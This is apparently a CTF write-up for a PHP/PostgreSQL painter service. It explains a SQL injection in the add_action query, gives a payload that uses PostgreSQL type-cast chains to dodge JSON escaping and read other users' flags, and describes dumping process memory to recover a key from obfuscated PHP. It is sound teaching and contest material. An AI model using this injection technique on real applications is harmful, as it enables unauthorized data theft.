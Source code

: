 # Obscurity

## Description

The service is a collaborative online painter. The backend is written on PHP
and uses PostgreSQL db.

## Flags

After user is register, she can draw geometric figures and text. Flags are
in text messages. Normally, to read the flag, user needs to know its password.

## The Vuln

There is an SQL-injection in this code:

```
$result = pg_query($db, "SELECT add_action(a:='".json_encode($action_data)."', u:=".$userid.")");
```

The varable $action_data is partially controlled by the attacker, for example she can control this content:

```
"action_data":{
   "color": "#abcdef",
   "tool": "text",
   "params": {
         "content": "..."
   }
}
```

The function add\_action first argument type is json:
```
    CREATE FUNCTION add_action(a json, u int)
        RETURNS int as $$
        declare actionid int;
    BEGIN
        INSERT INTO actions (userid, action) VALUES (u, a) RETURNING id INTO actionid;
        RETURN actionid;
    END;
    $$ language plpgsql SECURITY DEFINER SET search_path = public;
```

Usual exploitation techniques won't work here. If the single quote is passed, the json will be not valid anymore, because
all next double quotes in the "content" will be escaped. The concatenation also will not work, because it is executed only
after the left argument is successfully converted to json.

## The Exploitation

To exploit the service one need to use PostgreSQL syntax to convert arguments to different types in such way that the last type is valid json.

The payload:

```
"action_data":{
    "color": "#abcdef",
    "tool": "text",
    "params": {
        "content": "'::xid::text::json,u:=1);select add_action(to_json(get_actions(42)),123) as id -- ",
    }
}
```

The convertation to xid type converts the left part to 0, which is a valid json after converting to text.

Other convertation chains are possible.

The full sploit can be found at [/sploits/obscurity/spl.py](../../sploits/obscurity/spl.py).


## The Patching

To make sniffing more difficult, the parameters of api-calls are encrypted with RSA. The public key is in the frontend, the private key is in the backend.

The backend is obfuscated with SourceGuardian. The unobfuscated version is also given, but without the private key. So, to patch the vuln,
one need to get the key from the obfuscated version. The simplest way to do it is to import obfuscated php-file with php, dump the process memory and find the key in it.
